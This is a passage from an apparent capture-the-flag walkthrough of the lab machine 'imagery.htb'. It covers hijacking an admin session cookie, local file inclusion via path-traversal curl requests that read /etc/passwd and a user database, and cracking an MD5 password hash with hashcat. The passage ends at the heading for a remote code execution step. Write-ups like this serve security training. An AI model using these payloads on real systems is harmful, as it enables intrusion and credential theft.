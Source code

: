 ### Step 3: Session Hijacking

**Inject the stolen cookie into your browser:**

1. Open Developer Tools (F12)
2. Navigate to **Application** → **Storage** → **Cookies**
3. Replace your session cookie with the admin's session cookie
4. Refresh the page

🎉 **You now have admin access!**

### Step 4: Local File Inclusion (LFI) Exploitation

As an admin, you can download system logs. This functionality is vulnerable to **Local File Inclusion (LFI)**.

**Test for LFI vulnerability:**

```bash
curl "http://imagery.htb:8000/admin/get_system_log?log_identifier=../../../../../etc/passwd"
```

**Success!** The application reads arbitrary files. Let's extract the application database:

```bash
curl "http://imagery.htb:8000/admin/get_system_log?log_identifier=../../../../../home/web/web/db.json" \
  -H "Cookie: session=<ADMIN_SESSION_COOKIE>" \
  -o db.json
```

### Step 5: Password Cracking

The `db.json` file contains user credentials with password hashes:

```json
{
  "users": [
    {
      "email": "testuser@imagery.htb",
      "password_hash": "2c9341ca4cf3d87b9e4eb905d6a3ec45"
    }
  ]
}
```

**Crack the hash using CrackStation or hashcat:**

```bash
# MD5 hash identified
echo "2c9341ca4cf3d87b9e4eb905d6a3ec45" > hash.txt
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

**Result:** `testuser@imagery.htb:iambatman`

### Step 6: Remote Code Execution via Image Transformation
